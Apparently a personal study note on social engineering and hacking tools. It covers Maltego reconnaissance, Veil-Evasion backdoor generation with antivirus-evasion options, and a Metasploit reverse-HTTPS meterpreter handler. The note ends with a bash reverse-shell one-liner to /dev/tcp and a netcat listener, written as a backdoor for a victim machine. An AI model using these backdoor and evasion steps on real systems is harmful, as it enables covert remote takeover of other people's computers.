 # Social Engineering

Social Engineering is the art of manupulating people.

* Hacking target through people.
* target can be: person, company, website etc.
* __Big companiese spend a lot of time and money securing their systems__
* But these systems are managed and used by humans
* Not much is spent on educating employees.

## Information Gathering

* Gather information about target(company/website/person).
* Discover associated webstites,links, companies.
* Associated people, names, emails, phone numbers, social networks, friends.
* Associated social networking accounts.
* display all info on a graph and build attack strategies.

* **maltego** : Best tool for information gathering.

https://www.maltego.com/downloads/

## Backdoor

A backdoor is a file that gives full control over the machine that it gets executed on.
Backdoors can be caught. **Veil** is a framework for generating **Undetectable** backdoors.

https://github.com/Veil-Framework/Veil.git

### Veil - backdoor framework for windows

#### Commands

* **exit** : Completely exit Veil
* **info** : Information on a specific tool
* **list** : List available tools
* **options** : Show Veil configuration
* **update** : Update Veil
* **use** : Use a specific tool

#### Tools

* **Evasion** : Generates undetectable backdoors.  
* **Ordnance** : Generates payloads that used by **Evasion**. A payload is the part of the code of the backdoor that does the evil stuff. It gives us reverse connection, download and execute something on the target computer.

### Veil-Evasion

#### Commands

* **back** : Go to Veil's main menu
* **checkvt** : Check VirusTotal.com against generated hashes
* **clean** : Remove generated artifacts
* **exit** : Completely exit Veil
* **info** : Information on a specific payload
* **list** : List available payloads
* **use** : Use a specific payload

#### Payloads

* **meterpreter** : this payload is designed by **metasploit**. **metasploit** is a huge framework for hacking. The cool thing about **meterpreter** is it runs into memory and it allows us to migrate between system processes so we can have the payload or the backdoor running from a normal process like Explorer for example & this payload will allow us to gain full control over the target computer.

#### Payload: 15) go/meterpreter/rev_https

* **LHOST** : IP of the Metasploit handler. This is the main option. This is the IP address which you're going to be receiving the connections on.
* **LPORT** : Port of the Metasploit handler. 8080 or 80 is less suspicious port.
* **PROCESSORS** : Optional: Minimum number of processors. This is used to look malware different so that it can bypass anti-virus.
* **SLEEP** : Optional: Sleep "Y" seconds, check if accelerated. The malware will sleep for given amount of time before injecting the payload.

Backdoor doesn't open a port in the target machine, rather it actually connects from the target computer to the hacker's computer & by doing that it will bypass firewalls. So we need to open port 8080 or 80 in our machine. **metasploit** framework will be used to listen to this port.

### Metasploit - A huge framework for hacking

This will be used for our backdoor because meterpreter & evasion is also based on metasploit.

```bash
    msfconsole      # running metasploit in terminal
```

#### Modules

**exploit/multi/handler** : This module will allow us to listen to a port.

```bash
    use exploit/multi/handler
```

Then we need to set type of our payload.

```bash
    set PAYLOAD windows/meterpreter/reverse_https   # for windows
```

### Linux machine

Creating a backdoor for linux machine is very simple as it runs on UNIX system thus has bash terminal.

```bash
    # backdoor
    bash -i >& /dev/tcp/192.168.0.106/8080 0>&1

    # ip is for hackers machine
    # this script will run on target/victim machine.
```

Hacker's machine should be listening to the port 8080. To do that runs the following command using ***netcat**.

```bash
    nc -vv -l -p 8080
```

* nc = meaning **netcat**
* -vv = it means verbose standard output.
* -p = port
* -l = listen